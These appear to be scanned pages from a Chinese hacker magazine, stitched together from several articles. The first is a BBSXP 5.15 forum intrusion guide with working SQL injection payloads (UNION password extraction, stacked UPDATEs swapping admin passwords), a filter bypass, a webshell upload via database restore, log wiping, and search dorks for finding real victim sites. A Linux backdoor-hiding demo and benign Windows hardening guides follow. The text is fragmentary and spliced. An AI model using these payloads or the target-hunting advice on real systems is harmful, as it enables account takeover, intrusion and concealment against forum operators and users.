什么？你还不满意？只能做个社区区长没意思？有你的，够贪心啊！好，不过在继续之前我们先来总结一下 BBSXP 出漏洞的规律：BBSXP 过滤的不少，HTMLEncode 过滤也算有点严格了。可是，只要没被单引号括起来，我们还是很容易构造我们需要的 SQL 语句的（被单引号引起来了就全部变成字符串做查询条件了，绕不开，这一点和 PHP 下的注射很像，不是吗？）。那么 YUZI 肯定还有别的地方也是从 HTMLEncode 过滤后就放到 SQL 语句里执行了！让我们去读读他的代码。还好，BBSXP 出了名的小巧，就几十个文件，没两天就读完了。可能是我太粗心了吧，只在两个文件中发现了过滤不严的地方：

```asp
usertop.asp
order=HTMLEncode(Request("order"))
if order="" then
  order="experience"
sql="select top 500 * from [user] order by "&order&" Desc"
rs.Open sql,Conn,1
```

和 blog.asp 如出一辙，经过 HTMLEncode 过滤直接放入 SQL 语句中；且不在单引号的范围里。不过因为执行 SQL 语句的方式：`rs.Open sql,Conn,1`，而且又不在 where 条件中，构造多语句执行 update 什么的是没希望了，所以对 MSSQL 版的本人是不会利用了。不过 ACCESS 版还是很容易的；老方法了，union 查询：

```sql
order=id desc union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,admin,passw0rd,28,29,30,31,32,33 from clubconfig order by id
```

（[user] 表中有 33 个字段，其中 order by id 是为了配对 Desc）但是大家执行后可能会发现有点不愉快的东西，因为会有很多的垃圾信息挡在前面。我们要把自己查出来的东西排在第一位怎么办呢？很简单，数数 [user] 表中，degree 是登录次数，并且是在第 17 个字段，那么我们把 17 这个字段改为 9999，然后把最后那个 order by id 改为 order by degree，哈哈，没有人会登录 9999 多次吧，我们要查询的信息排在了第一位，登录时间处显示的就是后台密码了。（图11）要查询社区区长的用户名和密码或者特定用户的密码的方法和上面是类似的，就不啰嗦了，反正 zj1244 也为大家做出了工具了。如果对方把 blog.asp 删掉了（想必这个文件的漏洞有动画教程出来了吧，很多站长喜欢这么“打补丁”，可是 usertop.asp 就不一定咯），我们将 usertop.asp 选中，再暴就 OK 了。

然后再介绍一个地方，manage.asp：

```asp
在54行到57行的内容是这样：
54 case "move"
55 if Request("moveid")="" then error("ERROR[Argument is of the wrong type] in.<li>您没有选择要将主题移动哪个论坛")
56 if Conn.Execute("Select pass from [bbsconfig] where id="&Request("moveid")&"")(0)="" then error("ERROR[Argument is of the wrong type] in.<li>目标论坛为授权发帖状态")
57 conn.execute("update [Forum] set forumid="&Request("moveid")&",toptopic=0,goodtopic=0,locktopic=0 where id="&id&"")
```

大家注意看，这里的 moveid 甚至是直接 Request 得来的，没有经过任何过滤就进了 Conn.Execute 执行的 SQL 语句中。还客气什么，直接 update 吧，不过上次分析漏洞的时候太武断了，没有考虑到把后台密码改了以后管理员会进不去后台，做人要厚道，所以这次我们在改后台密码之前，先把原先的密码存到另一个地方，比如指定用户个人主页字段，然后等进了后台，传了 ASP 木马以后，再将密码还原，顺便还将自己注册的那个 ID 删除，将后台的日志删除，青春不留痕……

```vb
if membercode > 3 then
...
```

membercode 要大于 3，就只有管理员和区长了。X 教育过我们，学 hack 最重要的是思路，入侵要将多个漏洞结合起来……首先 cookie 欺骗进入前台以后，输入 `http://bbs.yuzi.net/manage.asp?menu=move&id=435183&moveid=2` 就可以将 id 为 435183 的帖子移动到 id 为 2 的版块……

在 manage.asp 文件的第 56 行，只要该 SQL 语句执行的结果的第一位查询值不为 4，就执行 57 行……举例说明：

```sql
moveid=435183;
update [user] set userhome=(select adminpassword from clubconfig) where username=0xD3C3BBA7;
update clubconfig set adminpassword=(select userpass from [user] where username=0xD3C3BBA7)
```

```sql
adminpassword=(select userpass from [user] where username=0xD3C3BBA7)
完整的句子就不写了，还原为 56 行原 SQL 语句是：
Select pass From [bbsconfig] where id=435183;
update [user] set userhome=(select adminpassword from clubconfig) where username=0xD3C3BBA7;
update clubconfig set adminpassword=(select userpass from [user] where username=0xD3C3BBA7)
```

首先将后台密码存入用户名为“用户”的个人主页中，然后将后台密码改为此用户的当前密码。提交后会看到 XXX 出错，在 manage.asp 行 57。于是就可以继续后续利用。（一阵坏笑中~~）


在第三个“目标主机”处填入 URL：`http://bbs.yuzi.net/manage.asp`，下拉菜单选择要进行的操作（例如将指定用户提为管理员），帖子 id 处填入任意存在的 id。指定用户是你希望进行操作的用户，比如“职业欠钱”……后面要填的东西也较重要，还记得前面说到需要版主以上身份吗？这里填入 yuzi 和 MD5 散列密码……

语句执行的）。最后点发送。（如果提示“可能成功咯”就恭喜了）当然，如果你要自己写 SQL 语句也是可以的，不过要记得避开单引号哦~


我们拿 BBSXP 官方做实验看看，先是使用“将用户提为管理员”功能将自己提为社区区长，然后更改后台密码（这时候会将后台密码放入自己的个人主页里，在查看个人基本资料时可以看得到），于是就可以顺利进入后台了。（图15）

上次教了大家备份数据库后，有些管理员就把那几个 asp.dll 的映射删掉了，这次教大家一招新的，用恢复数据库的功能……我们只需要将 asp 中任意一个字母改为大写即可。接着在恢复数据库的备份数据库一栏填入 `/images/upfile/2005-5/200558232956.jpg`，在数据库路径里填入：`shell.aSP`，点恢复，访问 `http://bbs.yuzi.net/shell.asp`……

# 黑客研究院

包，下载回去好好研究一下，没准 BBSXP 商业版就是 BBSXP 自己用的这一款呢，等等，别忘了擦 PP 了，这是个好习惯，呵呵~


漏洞的修补：

- `blog.asp` 中的 id 参数经过了类似 `HTMLEncode` 过滤处理。
- `manage.asp` 中的 `moveid` 处理示例：

```asp
moveid=int(Request("moveid"))
```

- `usertool.asp` 中部分处理仍可被绕过。

其实，现在最新的 BBSXP 已经做了所谓的“修补”了。为什么说是所谓的呢？有兴趣的朋友们可以打开看一看，blog.asp 中的 id 依然是使用 HTMLEncode 函数过滤的，manage.asp 中的 moveid 依然是没有经过任何过滤，那么他是怎么修补的呢？仔细对比源码就知道了，在 setup.asp 中，对 HTMLEncode 函数增加了对空格的过滤。这种如果读者朋友按照上面的 SQL 语句进行实验的话，就会出错，可是，我们知道，在 SQL 语句中，一个语句之间的间隔符不只有空格而已，回车或者制表符等都可以。小 Z 在工具里使用的就是 `\t`，将前文的语句中的空格全部替换为 `%09`（制表符的 ASCII 码为 9），轻松搞定。

在工具的下拉菜单项，选择“还原后台密码”，这样就会从“职业欠钱”的个人主页处将刚才保存的密码还原回去。然后再将自己还原为小野人，使用“删除指定用户的后台日志”将关于我们的日志删掉，神不知，鬼不觉。你觉得有必要，将整个用户删掉也可以，选中“删除指定用户”点发送就可以了。（图18）


# 写在文末

本人在测试这个漏洞的时候，发现由于前段时间 BBSXP 补丁动作比较慢，结果网上一阵血雨腥风，不少论坛被挂上木马，甚至有些论坛连数据都被删光了。叫人看了心里好不畅快，这些人心里是怎么想的实在是搞不明白，把人家数据删光了对他有什么好处。记得以前曾经说过，黑客技术是一把双刃剑，我们的读者要时刻提醒自己应该正确地使用这把剑！（本文所涉及的 bbsxp 综合利用和 BBSXP 官方入侵手记动画光盘中有收录。）


# 实战练习

好了，原理也分析完了，工具也介绍好了，我们再看看怎么找网站练习吧！上百度或者 google，输入关键字：Powered by BBSxp 5.15 SQL/Licence（图19），就能找到一大片的论坛。（因为本文全部是针对 5.15 版的，其他版本的因为手头上没有源代码而没有分析）如果想找 ACCESS 版的，将关键字的 SQL 去掉就行了。


## Linux黑客后门较量

## 从入侵到多重回溯

姜超

喜欢 Linux 的朋友一定对 Linux 的安全很感兴趣吧，以前我给大家写过很多关于 Linux 安全配置方面的文章，这次我就来介绍 Linux 下中级后门制作和解决的方法。我将会打破传统的黑客教学文章一味地从检测开始写起，这次我会把整个操作既当成入侵又当成检测，这样大家可以学到两方面的知识。

## 中级后门的简单制作：

假如我们已经入侵到一台 Linux 的服务器，我们也已经把后门放到他机器上了，现在要做的就是把后门隐藏得越隐秘越好。这里演示的是比常见后门更高级、更有技术价值的后门。首先我为了方便，就在“/”下建立一个 test.c 的文件（这个就是我们做的后门文件）。

```bash
[root@route /]# vi test.c
#include <unistd.h>
int main(){
    for(;;)
        sleep(60);
}
```

学过 C 的朋友一定知道这个程序的意思吧，这个程序就是一旦执行，如果没有人去停掉它的话，它是永远不会停的。因为后门一旦执行，如果没有外界关闭它，它也是不会停的。

```bash
[root@route /]# gcc -o test test.c
[root@route /]# ./test &
[1] 4520
[root@route /]# jobs
[1]+ Running ./test &
```

现在我们就把这个可执行文件删除。在 Linux 下，我们可以删除任意正在运行的程序，这跟 Windows 有很大的区别。

```bash
[root@route /]# rm test
rm: 是否删除一般文件 'test'?
```

好了，我们已经成功地将后门文件 test 删除了，现在我们看看进程里显示什么（如图1）？


图1

看到倒数第 2 行了吧，test 进程仍在进程表里。这进一步说明，删除正在执行的程序，并不干扰程序的运行。下面我就转换一个角色，来模拟普通管理员如何解决这个问题。

## 普通管理员的解决方法：

这里我假如是个经验不足的 Linux 系统管理员，我会先用 ps 列出所有进程，然后找到可疑进程。现在我发现可疑进程了：`root 4520 ... ./test`。它的 PID 号为 4520，那么我就用 lsof 命令来看看这个进程所有有关的信息（如图2）。


图2

这里就是跟 test 程序有关的所有信息，请大家注意这一行 `/test (deleted)`，这说明这个程序是在“/”下被执行的，执行文件名叫 test，但是文件已经删除了。


# 黑客研究院

```bash
[root@route /]# ls -al test
ls: test: 没有那个文件或目录
```

看到了吧，查看也根本查看不到这个 test，如果再对这个 ps 或者 top 命令做点手脚，普通管理员连发现都发现不了。对于普通没经验的管理员来说，能做的只能是用 kill 来杀掉这个 test 的进程了。但是我很不甘心，我不知道这到底是个什么后门，我不知道它对我系统做了什么程度的危害，我就不能去分析这个后门了。所以只好干瞪眼，心里犯怕有后患。大家看到了没经验的管理员如何处理这个后门的方法后，现在我来让大家看看高级有经验的 Linux 管理员是如何解决这个问题的。

好了，现在 /tmp 下的 exe 文件就是被删除的 test 了。整个入侵检测流程我就演示完了，我已经把黑客删除的文件又原封不动地还原了。当然，这个后门对于高手来说还是比较菜的，但是这足以对付普通管理员了。如果要做成高手级的后门，其实也不难，只需要在他系统上做个 rootkit 就可以，会操作的朋友都会。不过这个后门大家一般都是用别人写的程序来做的，对自己来说锻炼不出什么，下次我会给大家带来更高级的 Linux 后门讲座，希望大家能欣赏。

# 高级管理员的解决方法：

现在我是一个高级 Linux 管理员了，我开始做的步骤跟上面的普通管理员做的都一样，但是执行 **lsof -p 4520**，发现 /test 被删除后，这就使我的疑心更大了，我更加确定这一定是个后门。但是目前已经被删除了，我查找也查找不到了，怎么办？没关系，最关键的是这个进程还没有断，我们可以根据这个进程来找到最终的凶手。大家都知道这个 test 进程是 4520 了吧，现在我们就：

```bash
[root@route 4520]# cd /proc/
```

大家这里会问为什么要切换到 /proc 目录来啊？这个目录是干什么的啊？

/proc 这个目录是一个虚拟的目录，它是系统内存的映射，我们可以通过直接访问这个目录来获取系统信息。也就是说，这个目录的内容不在硬盘上而是在内存里。虽然黑客已经把程序删除了，但是这个程序还在内存里继续执行着，所以我们完全可能从内存里把它原封不动地拽出来（如图3）。


大家看到左半部分是一堆数字的目录吧，也许你们会问这写的是什么目录？我来告诉大家，它们就是 ps -aux 看到所有 PID 的进程文件夹，从这里面我们可以找到我想要找到的东西，好了，进到 test 进程的目录吧。

```bash
[root@route proc]# cd 4520/
[root@route 4520]# ls
attr  auxv  cmdline  cwd  environ  exe  fd  maps
mem  mounts  root  stat  statm  status  task  wchan
```

大家发现一个名为 exe 的文件了吗？聪明的朋友会问到，难道这个就是已经被删除的 test？没错，这个就是内存里的 test；我们如果要分析它，可以把它拷贝到别的目录下进行研究，这里我拷贝到 /tmp 临时文件下。

```bash
[root@route 4520]# cp exe /tmp/
[root@route 4520]# cd /tmp
[root@route tmp]# ls
exe
```

# 安全第一

网络安全始终是一个引人注意的话题。随着安全意识的增强，很多朋友开始使用各种安全措施，以保护自己的电脑和数据不受非法侵害。但是传统的杀毒软件和防火墙都存在不足之处，比如：杀毒软件对病毒库中不存在的新病毒不能有效查杀，甚至无法觉察，这就是升级前的“盲区”；一般的防火墙软件偏重于对特定端口的封锁，对抗未知的网络侵害方式能力有限。另外，二者对付恶性间谍软件都力不从心，笔者最近就碰到过多款著名杀毒软件无法清除某种恶意程序的情况，即使它们的病毒库都是最新的。

最佳的网络安全方案，不是在侵害发生后“亡羊补牢”，而应该是“未雨绸缪”，在侵害发生之前“拒敌于千里之外”。Prevx Home 是世界上第一种可免费下载的主机入侵防护软件，可以弥补防病毒软件、间谍软件清除工具和防火墙的不足，把你的电脑武装得“百毒不侵”；更重要的是，Prevx Home 不仅是免费软件，更可以免费升级！

> Prevx Home 最新版本：V2.0  
> 下载地址：http://www.prevx.com/prevxhomedownloadnow.asp

安装很简单，运行 prevxhomeprevx.exe，一路“Next”即可。完成后安装程序会要求重启系统，以便启动 Prevx Home 的系统服务项目。

第一次运行 Prevx Home 会弹出如图1的对话框，询问是否对 Prevx Home 进行更新，建议选择“Yes”；在程序升级窗口中（图2）点击“Begin”进行更新，完毕后点击“Finish”退出，并进入 Prevx Home 主界面的“Status（状况）”页面（图3）。

## Status（状况）

在该页面中可以看到 Prevx Home 的常规状况，包括：

- Protection Level（保护级别）：对系统保护的安全等级进行设置，具体使用方法将在下文中叙述。
- 很酷的三维多锥体造型，三个选项分别是 Trojan Protection（木马防护）、Hacker & Worm Protection（黑客和蠕虫病毒防护）、Spyware & Adware Protection（间谍和广告软件防护），点击各自的锥体将打开相应的帮助文档。
- About（关于）、Close（关闭）和 Update（升级）。

首先来看一下 Protection Level，点击下拉三角可选择“Maximum”或“Off”，即：最高级别防护和关闭防护功能。默认状态为“Maximum”，此时半圆环处显示为100%。

## Security Settings（安全设置）

虽然最高级别防护能带给我们更多的安全，但是有时也会造成某些不便（比如影响正常的网页浏览等），这时我们可以手动配置各个安全选项：点击菜单栏中的“Security Settings”，在“Settings”栏下列出了许多防护对象，包括 Physical Memory Overwrite（可写物理内存）、IE 首页、木马、间谍软件以及多种文件（Exe、Inf、Com 等）；在很多对象后面的括号中表明了该对象所属的领域，比如 Download Areas（下载存储区）、Program Areas（程序存储区）、System Areas（系统存储区）、Stack（堆栈）等（图4）。

每一个防护项目后面都有四个设置标志，由左至右分别是：

- Prevent mode（预防模式）：对该项进行防护；
- Query mode（询问模式）：询问用户如何操作；
- Off（关闭该项）：对该项不进行防护；
- Report mode（报告模式）：不询问用户并自动进行防护，同时产生报告。

建议大家选取“Query mode（询问模式）”，既可使系统得到更多的安全保障，同时又具有一定的灵活性。选择防护模式后，该对象即处于相应的保护状态之下。设置完成后，选择“Save Changes”保存设置规则。

> **小提示：**初始安装项目是“Protection Level（防护级别）”的“中间等级”，表示保护等级的高低。

还能设置超过一定的事件数量则删除历史记录，以免日志过大、占用过多系统空间。使用“Clear history if more than”右方的上下小箭头可以设置事件数量，范围是10—10000，建议设置为100—300之间比较合适，既能够保存一定的历史日志又不会占用过多空间。

鉴于 Prevx Home 提供了强大的系统安全防护功能，在你进行了精心配置之后，当然不希望被别人修改吧？那就给 Prevx Home 加上密码吧：勾选“Enable password protection（允许密码保护）”，打开密码设置窗口（图7），在“New Password”和“Confirm Password”两处输入新密码；如果担心忘记密码的话，可以在“Password hint”处输入密码提示语。设置完成后点击“OK”生效。

## 二、Event History（事件日志）

点击菜单栏中的“Event History”，内容分为两类：“Event”栏下列出的是发生的所有事件，而“Time”栏下则是事件发生的具体时间。选中某个事件，在下方状态栏中会显示该事件的 Process（进程）、Source（来源）、Type（类型）、Time（发生时间）、Date（记录日期）以及简要介绍（图5）；点击“Event Details”，在打开的窗口中可以看到该事件的详细资料。

“Rules Management（规则管理）”包括两项内容：“Don't notify me again” rules（“不要再次通知我”规则）和 Advanced options for Queries（高级询问设置）。如果想摆脱事件通知和改变设置时程序的询问，可点击右方的“Clear”删除相应规则。

## 三、Preferences（参数选择）

点击菜单栏中的“Preferences”，在页面中可以对 Prevx Home 进行各种参数设置（图6）。使用“Update every”右方的上下小箭头可以选择每隔多久进行程序更新，范围是1—30天，建议设置的时间短一些，以保证程序尽快得到最新更新。

## 五、Prevx Home 任务栏图标的使用

当 Prevx Home 最小化时会在任务栏显示小图标，右击出现如图菜单（图8）：

- Show Management Console——显示管理控制台；
- Check for Updates——检查更新；
- Trusted Installation——可信任的安装；
- Suspend Protection——暂停保护；
- Shutdown Prevx Home——关闭 Prevx Home。

笔者经过试用，感觉 Prevx Home 的系统防护功能确实强大而全面，防止系统的“初期感染”更是拿手好戏。配合杀毒软件和防火墙，Prevx Home 可以使你的系统“固若金汤”！

# 安全第一

由于经费等多种原因的限制，不少办公室的电脑是多人合用的，本地用户经常需要相互共享文件。出于保密等多方面原因，不少文件往往要求只能查看不能修改，或者只允许特定用户修改或查看，此时使用一般的“共享文件夹”显然行不通。不过我们可以利用 NTFS 的安全特性，为文件（文件夹）设置访问权限和审核，不仅可以限制用户非法使用文件，还能了解文件曾经被哪些用户访问，在使用方便和保证安全之间取得最佳平衡。

## 一、使用高级文件共享

Windows XP 默认采用“简单文件共享”，这种方式无法实现上述安全要求。如果您需要为用户分配文件访问权限，或者启用文件访问的“审核”功能，就应该使用 Windows XP 的“高级文件共享”。

### 1. 关闭简单文件共享

要使用文件（文件夹）的高级文件共享，必须关闭系统默认的简单文件共享。您只要单击“控制面板”中的“文件夹选项”，打开“文件夹选项”对话框的“查看”选项卡，取消“高级设置”下的“使用简单文件共享（推荐）”即可。

### 2. 创建用户和组

为了对用户的访问权限进行控制，高级文件共享要求创建用户和组。如果需要创建的用户较多，可以在 Windows XP“控制面板”中打开“管理工具”窗口，使用其中的“计算机管理”打开同名窗口。选中左窗格“本地用户和组”下面的“用户”，然后在右窗格中右击，选择快捷菜单中的“新用户”命令打开对话框，就可以输入名称和密码等为用户建立账号了。为了简化用户权限管理，最好将权限相同的用户放入同一个组，并通过“组”来统一添加用户。

## 二、文件权限管理

假如电脑中的多个文档只允许他人观看，文件所有者才能任意修改。可以采用以下步骤给它们设置只读权限：

- **添加用户或组**：以管理员身份登录，在 NTFS 分区建立文件夹并将文档放入；右击文件夹→“属性”→“安全”；通过“添加”将“只读访问用户”或相关用户组加入。
- **设置权限**：在“安全”选项卡中选中新增用户/组，在权限中勾选“读取和运行”“读取”等允许项（按需选择），确定后生效。

按照相同的方法，系统管理员可以授予文件所有者“完全控制”权限，授予其他用户组“读取和运行”等权限。此后，即使本机所有用户都能看到文件夹中的文件，不同用户实际可执行的操作权限也不一样。

> **小提示：**Word 等软件也可以给文档设置只读属性（例如“另存为”并设置密码），但这种方式在多人协作与统一权限管理方面效率较低。相比之下，通过 NTFS 权限可更方便地对一组文件或单个文件实施统一控制。

## 三、文件访问“审核”

如果我们需要知道哪些用户曾经打开了文档，可以为文件（文件夹）设置“审核”。例如想知道谁打开了“工作总结”文件夹，可按以下步骤操作：

- **设置“审核”项目**：以管理员身份登录，右击目标文件/文件夹→“属性”→“安全”→“高级”，进入“审核”选项。
- **添加审核对象**：点击“添加”，将用户（或组）加入后，勾选需要记录的项目（如读取、写入、删除等）的“成功/失败”。
- **确定并生效**：完成后点击“确定”保存设置。

### 2. 启用审核策略

Windows XP 默认设置没有启用“审核对象访问”，不能自动记录对文件或文件夹的访问，所以必须在“控制面板”中打开“本地安全设置”窗口，选中“本地策略”下的“审核策略”，右击右方窗格中的“审核对象访问”，选择快捷菜单中的“属性”命令打开对话框。根据需要选中对话框“审核这些操作”下的“成功”或“失败”（建议两者都选），完成后单击“确定”按钮关闭对话框。

### 3. 查看审核结果

上述操作完成后，只需在“控制面板”中打开“本地安全设置”窗口，单击“事件查看器”打开窗口。选中左窗格中的“安全性”，即可在右窗格看到很多审核事件。右击其中任意一个事件，选择快捷菜单中的“属性”命令，打开对话框后单击右上角的“↑”或“↓”按钮，就可以查看各个事件的详细信息了，最终找到访问“工作总结”文件夹的用户名等结果。

> 小提示：利用相同方法，我们还可以审核“账户管理”“账户登录”等其他事件，及时发现非法使用电脑等危及系统安全的问题。

相信许多朋友已经安装了 Windows 2003，这个系统比以前的 Windows 用起来感觉好多了，非常稳定，界面也很漂亮。为了你的 Windows 2003 安全，我们要好好设置一下。

## 一、封杀“安全提示”

Windows 2003 在安全性能方面进一步加强，使用默认 IE 浏览器上网时常会弹出安全提示框。若想减少这类提示，可通过设置进行调整，包括在提示页中勾选“当网站内容被阻塞时继续提示”、在“工具→Internet 选项”中调整安全级别、将安全滑块设为“中”等，并可通过“确定”保存设置。

- 在安全提示页面勾选“当网站内容被阻塞时继续提示”。
- 在浏览器中打开“工具 → Internet 选项”。
- 在“安全”标签页将安全滑块调到“中”。
- 单击“确定”保存设置。

—— 添加站点到“信任区域”

Win2003 提供增强安全服务功能，默认会提高访问站点的安全级别。对于常访问网站，可添加到受信任站点区域，之后访问可减少安全提示。方法包括在地址栏输入站点地址后，根据提示选择“添加”，并在“可信任站点”设置窗口中确认。

- 在浏览器地址栏输入要访问的站点地址并回车。
- 在安全提示窗口中选择“添加”（不访问则选“关闭”）。
- 在“可信任站点”设置窗口中确认站点已加入。
- 继续单击“添加”可加入更多站点。

## 二、重新支持 ASP 脚本

为了将系统安全隐患降到最低，Win2003 默认不支持 ASP 脚本运行。若需要支持，可在 IIS 管理中启用相关扩展：进入“管理工具/Internet 信息服务管理器”，在属性窗口中选择“Web 服务扩展”，双击“Active Server Pages”，并在“允许”处启用，即可重新支持 ASP 脚本。

- 打开“管理工具”→“Internet 信息服务管理器”。
- 选择左侧“Web 服务扩展”。
- 在右侧选中“Active Server Pages”，点击“允许”。

## 四、删除默认共享

### 1. 删除 Windows 2003 默认共享

首先编写如下内容的批处理文件：

```bat
@echo off
net share c$ /del
net share d$ /del
net share e$ /del
net share f$ /del
net share admin$ /del
```

将批处理保存为 delshare.bat，并放到 `system32\Group Policy\User\Scripts\Logon` 目录。随后运行 gpedit.msc，在“用户配置→Windows 设置→脚本(登录/注销)→登录”中添加该脚本，即可实现登录时删除默认共享。

出现“添加脚本”对话框后，在该窗口的“脚本名”栏中输入 delshare.bat（如图1），然后单击“确定”按钮即可。这样就可以通过组策略编辑器使系统开机即执行脚本，删除 Windows 2003 默认共享。

### 2. 禁用 IPC 连接

IPC 是 Internet Process Connection 的缩写，也就是远程网络连接。它是 Windows NT/2000/XP/2003 特有的功能，其实就是在两个计算机进程之间建立通信连接，一些网络通信程序的通信建立在 IPC 上面。举个例子来说，IPC 就像是事先铺好的路，我们可以通过这条“路”访问远程主机。默认情况下，IPC 是共享的，也就是说微软已经为我们铺好了路，因此，这种基于 IPC 的入侵也常常被简称为 IPC 入侵。建立 IPC 连接不需要任何黑客工具，在命令行里键入相应命令就可以了，不过有个前提条件，那就是你需要知道远程主机的用户名和密码。

```bash
net use \\ip\ipc$ "password" /user:"username"
```

我们可以通过修改注册表来禁用 IPC 连接。打开注册表编辑器，找到 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` 中的 `restrictanonymous` 子键，将其值改为 1 即可禁用 IPC 连接。

## 设置远程可访问的注册表路径

设置远程可访问的注册表路径为空，这样可以有效防止黑客利用扫描器通过远程注册表读取计算机的系统信息及其他信息。打开组策略编辑器，然后选择“计算机配置”→“Windows 设置”→“安全选项”→“网络访问：可远程访问的注册表路径”及“网络访问：可远程访问的注册表路径和子路径”（如图2），将其内容设置为空即可。

这样做还可有效防止 SMBCrack 之类工具破解和利用网页得到我们的 NT 口令散列。

如果你的机器还装了 IIS，你最好设置一下端口过滤。方法如下：选择网卡属性，然后双击“Internet 协议(TCP/IP)”，在出现的窗口中单击“高级”按钮，会进入“高级 TCP/IP 设置”窗口。

接下来选择“选项”标签下的“TCP/IP 筛选”项，点“属性”按钮，会来到“TCP/IP 筛选”窗口。在该窗口的“启用 TCP/IP 筛选(所有适配器)”前面打上“√”（如图5），然后根据需要配置即可。

比方说如果你只打算浏览网页，则只开放 TCP 端口 80 即可。可以在“TCP 端口”上方选择“只允许”，然后单击“添加”按钮，输入 80 再单击“确定”即可。如果有其他需要可如法炮制。

## 关闭不必要的端口

大家都知道，139 端口是 NetBIOS 使用的端口。在以前的 Windows 版本中，只要不安装 Microsoft 网络的文件和打印共享协议，就可关闭 139 端口。在 Windows 2003 中，只这样做是不行的。如果想彻底关闭 139 端口，方法如下：鼠标右键单击“网络邻居”，选择“属性”，进入“网络和拨号连接”；再用鼠标右键单击“本地连接”，选择“属性”，打开“本地连接 属性”页，然后去掉“Microsoft 网络的文件和打印共享”前面的“√”（如图3）；接下来选中“Internet 协议(TCP/IP)”，单击“属性”→“高级”→“WINS”，把“禁用 TCP/IP 上的 NetBIOS”选中（如图4），即大功告成。

# 七、根据需要对系统服务进行控制

服务是一种在系统后台运行的应用程序类型，它与 UNIX 后台程序类似。服务提供了核心操作系统功能，如 Web 服务、事件日志记录、文件服务、帮助和支持、打印、加密和错误报告。

通过服务管理单元，可管理本地或远程计算机上的服务。所以并不是所有的默认服务都是我们需要的。不需要的服务可以停用、禁用，来释放系统资源。举个例子，以下服务就不是必须的：

- **Task Scheduler**：若不使用计划任务可禁用。
- **Remote Registry**：允许远程修改注册表，通常可禁用。
- **Telnet**：远程命令行服务，非必要可禁用。
- **Print Spooler**：无打印需求时可禁用。

其实我只是根据大部分人的情况对部分服务做了简单介绍，如果你想更详细地了解系统服务，可以到“我的电脑”→“控制面板”→“服务”中查看（如图6），每个服务都有完整描述，或使用 Windows 2003 的帮助与支持查阅相关资料。

# 八、避免非法访问应用程序

由于 Win2003 是一种服务器操作系统，为了防止登录其中的用户随意启动服务器中的应用程序，给服务器的正常运行带来不必要的麻烦，我们很有必要根据不同用户的访问权限，来限制他们去调用应用程序。

在“运行”中输入 `gpedit.msc`，依次展开“用户配置”→“管理模板”→“系统”，启用“只运行许可的 Windows 应用程序”策略。


“应用程序列表”能够随系统自动运行，再执行该设置页面中的“显示”命令，在随后出现的内容显示对话框中执行“添加”命令，将需要限制调用的应用程序添加进来；完成后，用户只能调用列表中的程序。

# 九、避免非法调整开始菜单

在多人共用一台计算机时，常会有人非法调整开始菜单内容，导致他人不便操作。可通过组策略限制用户更改任务栏和开始菜单设置：在“运行”中输入 `gpedit.msc`，展开“用户配置”→“管理模板”→“任务栏和开始菜单”，启用“阻止更改任务栏和开始菜单设置”。

# 十、确保系统自动安全登录

个人专用计算机可通过注册表实现自动登录：打开注册表编辑器，定位到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`，设置 `AutoAdminLogon=1`，并配置 `DefaultDomainName`、`DefaultUserName`、`DefaultPassword` 等项，重启后可自动登录。

# 十一、避免非法修改桌面

一般来说，我们不希望他人随意修改系统桌面设置或删除快捷方式。在 Win2003 中可通过组策略与相关限制项实现桌面保护。打开注册表编辑器窗口，依次展开 `HKEY_USERS\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer` 分支，在对应 Explorer 的右边子窗口中新建 DWORD 值“No Save Settings”，并将键值设置为 1 就可以了。

# 十二、小心设置用户口令

如果用户能够自己设置一个强壮的密码，就可以在很大程度上避免口令攻击。黑客们很喜欢用 IPC$ 的弱口令来入侵。这里所指的强壮密码，最起码要求字符长度在 8 个以上，最好是字母、数字、特殊字符的组合。如：`0U53@pq,z%2c3H#+10@`。不要用自己的生日、手机号、电话号码做口令，小心你身边的人就有可能是黑客哦！另外，打上最新的补丁也是必不可少的。

# 十三、关闭自动播放功能

自动播放功能用处不大，却常常给人们带来很多麻烦。自动播放功能不仅对光驱起作用，而且对其它驱动器也起作用，这样很容易被黑客利用来执行恶意程序。所以我们要关闭自动播放功能，具体方法是：首先打开组策略编辑器（运行 `gpedit.msc`），然后选择“计算机配置”→“管理模板”→“系统”→“关闭自动播放”，在出现的“关闭自动播放属性”窗口中选择“已启用”，并在“关闭自动播放”中选择“所有驱动器”即可。


结束语：虽然正确、安全的设置系统很重要，但更重要的是人的安全意识要能跟得上去，这样才能更好地保护你的系统。最后提醒大家，经常到各大网络安全站点关注最新公告，并及时为系统打上补丁，这样你的系统才会安全许多。

## 查找挂伪的80端口

众所周知，Web 服务一般在默认情况下占用系统的 80 端口，并通过 80 端口为来自网络的某些主机提供服务。作为被黑客重点攻击的对象，在 80 端口上，我们做一番工夫也是值得的。

日志文件对于检查服务器是否被攻击是极为重要的。日志文件有多种，我们建议使用“W3C 扩充日志文件格式”，步骤如下：启动“Internet 服务管理器”，右击欲设置受控的站点，在弹出菜单中选择“属性”，点击“Web 站点”选项卡，勾选“启用日志记录”，从“活动日志格式”下拉框中选择“W3C 扩充日志文件格式”……

以上最后 2 个属性只当一个计算机充当多个 Web 服务提供时才有意义，也就是所谓的虚拟主机。属性“Win32 状态”对于调试非常有用，当它的数值等于 5 时，表示禁止访问（access denied）。我们可以在命令行执行命令得到其它的“Win32 状态码”所表示的含义。

## 一、设置目录

为了便于更好地设置文件的权限，通过权限来加强系统安全，我们这里为不同类型的文件建立不同的目录：

- `C:\inetpub\wwwroot\myserver\static`，存放静态文本文件（html）
- `C:\inetpub\wwwroot\myserver\include`，存放包含文件（inc）
- `C:\inetpub\wwwroot\myserver\script`，存放脚本文件（asp）
- `C:\inetpub\wwwroot\myserver\executable`，存放可执行文件（exe、dll、cmd、pl）
- `C:\inetpub\wwwroot\myserver\images`，存放图形文件（jpg、gif）

我们的原则是：如果一个虚拟目录下面有多种类型的文件，按照上面的办法为每一种文件设置访问权限，无疑是非常繁琐的事情。因此，我们可以采取为不同类型文件创建不同目录的方式，然后再按照上面的原则为每一个目录设置相应的访问权限。一般对于上述文件比较合理的权限划分应该是这个样子的，如图1。

| 文件类型 | 建议的访问权限 |
|---|---|
| CGI 程序（exe、dll、cmd、pl） | Everyone (X)；Administrators (Full Control)；System (Full Control) |
| 脚本文件（asp） | Everyone (X)；Administrators (Full Control)；System (Full Control) |
